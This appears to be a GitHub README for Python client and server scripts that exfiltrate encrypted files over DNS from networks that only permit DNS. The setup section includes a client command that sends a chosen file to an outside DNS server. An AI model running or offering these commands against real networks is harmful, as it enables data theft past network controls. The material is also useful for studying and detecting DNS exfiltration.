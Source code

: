 # DNS Exfiltration
* DNS can be used to extract data from protected networks that only permit DNS. These are client & server scripts that both encrypt & decrypt data transferred through DNS. The client encrypts the data before it's sent through the network. The server decrypts the data once it's received from the client. 

# Setup:
* Dependencies (client/server)
	```
	pip3 install -r requirements.txt
	```
* Server:
	```
	python3 server.py -v
	```
* Note that since DNS server is usually running on privileged port `53`, the `server.py` needs root permissions.
* Client:
	```
	python3 client.py -n <YOUR DNS SERVER> -f /path/to/file
	```
* A gif showing the process:
* ![dns exfiltration](assets/dns_exfiltration.gif)
* How it looks on WireShark (DNS over UDP):
* ![DNS over UDP](assets/DNSOverUDP.png)
* How it looks on WireShark (DNS over TCP):
* ![DNS over TCP](assets/DNSOverTCP.png)
# Requires python3.8+
* Since the server & client are using UDP protocol to transfer data, such a transfer process is not reliable, and therefore, files might not be transferred correctly when either the file being transferred is large or there is a traffic noise on the server. The delay between the byte blocks being sent can also affect the byte blocks order, which may corrupt the file being sent if one block of bytes gets received before the one that must be received first.
* For these reasons, DNS over TCP is supported and can be used to transfer files/data with a higher reliability.
* You can send binary files too.
# TODO
* ✓ Make the file sending process as reliable as possible (use TCP for this `--tcp`).
----
* Useful links:
* [DNS exfiltration of data](https://hinty.io/devforth/dns-exfiltration-of-data-step-by-step-simple-guide/)
